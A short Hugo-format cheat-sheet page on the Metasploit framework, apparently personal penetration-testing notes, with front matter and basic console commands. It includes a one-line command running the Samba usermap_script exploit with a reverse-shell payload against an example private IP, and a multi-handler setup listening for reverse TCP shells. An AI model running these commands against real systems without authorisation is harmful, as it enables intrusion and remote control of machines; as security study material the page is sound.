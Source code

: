 ```yaml
---
### The title for the content.
title : "Metasploit"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "metasploit"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "Metasploit description."
### The datetime assigned to this page.
date : 2020-03-10T16:33:38+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "metasploit"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
### a map of Front Matter keys whose values are passed down to the page’s descendants unless overwritten by self or a closer ancestor’s cascade. 
cascade:
    tags: ['Metasploit']
---
```


## Metasploit

### Install

### Usage

```bash
msfconsole
```

### Examples

#### init database

```bash
msfdb init
```

#### create new workspace

```bash
workspace -a [name]
```

#### switch to workspace

```bash
workspace [name]
```

#### run commands without interactive shell

```bash
msfconsole -x "use exploit/multi/samba/usermap_script;\
set RHOST 172.16.194.172;\
set PAYLOAD cmd/unix/reverse;\
set LHOST 172.16.194.163;\
run"
```

#### Multi-handler for reverse shell

```bash
use exploit/multi/handler
set LHOST 192.168.88.128
set LPORT 4444
set ExitOnSession False
```

##### netcat/bash reverse

```bash
set PAYLOAD linux/x86/shell/reverse_tcp
```

##### run in the background

```bash
run -j
```

### Also see

* [Github Project](https://github.com/rapid7/metasploit-framework)
* [metasploit-unleashed](https://www.offensive-security.com/metasploit-unleashed/)
